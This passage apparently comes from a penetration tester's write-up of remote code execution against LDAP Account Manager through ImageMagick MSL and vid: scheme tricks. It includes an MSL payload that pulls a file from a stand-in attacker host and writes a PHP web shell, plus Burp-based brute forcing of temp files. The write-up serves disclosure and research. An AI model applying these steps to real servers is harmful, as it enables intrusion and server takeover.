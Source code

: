 Second, let’s create an MSL file that will copy this image from our HTTP server to a writable web directory. It wasn’t hard to find such a directory in configuration files of LAM.

<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="http://attacker.com/positive.png" />
<write filename="/var/lib/ldap-account-manager/tmp/positive.php" />
</image>

And third, let’s put it all together in Burp Suite Intruder:
Configuring Burp Suite Intruder

To make the attack smooth, I set the PHPSESSID cookie to prevent the creation of multiple session files (not to be confused with temporary upload files) and specified the direct IP of the server since it turned out that we had a balancer on 10.0.0.1 that was directing requests to different data centers.

Additionally, I enabled the denial-of-service mode in Burp Intruder to prevent descriptor exhaustion of Burp Suite, which might happen because of incorrect TCP handling on the server side.

After all 20,000 multipart requests were sent, I brute forced the /tmp/phpXXXXXX files via Burp Intruder:
Bruteforcing /tmp/phpXXXXXX files

There is nothing to see there; all the server responses stayed the same. However, after 120,000 tries, our web shell was uploaded!
Executing the “id” command on the target server

After this, we got administrative access to OpenLDAP, and took control over all Linux servers of this customer with the maximum privileges!
RCE #2: VID Scheme

I tried to reproduce the technique with text:fd:30 locally, and I discovered that this construction no longer crashes ImageMagick. I went deep to ImageMagick sources to find a new crash, and I found something much better.

Here is my discovery.

Let’s look into the function ReadVIDImage, which is used for parsing VID schemes:
A source code of ReadVIDImage (see on GitHub)

This function calls ExpandFilenames. The description of ExpandFilenames explains in details everything this function does.
The description for the ExpandFilenames function (see on GitHub)

The call of ExpandFilenames means that the VID scheme accepts masks, and constructs filepaths using them.

Therefore, by using the vid: scheme, we can include our temporary file with the MSL content without knowing its name:
Including an MSL file without knowing its name

After this, I discovered quite interesting caption: and info: schemes. The combination of both allows to eliminate an out-of-band connection, and create a web shell in one fell swoop:
Uploading a web shell via caption: and info: schemes
Getting content of the uploaded /var/lib/ldap-account-manager/tmp/positive.php file

This is how we were able to exploit this Arbitrary Object Instantiation in one request, and without any of the application’s classes!
The Final Payload
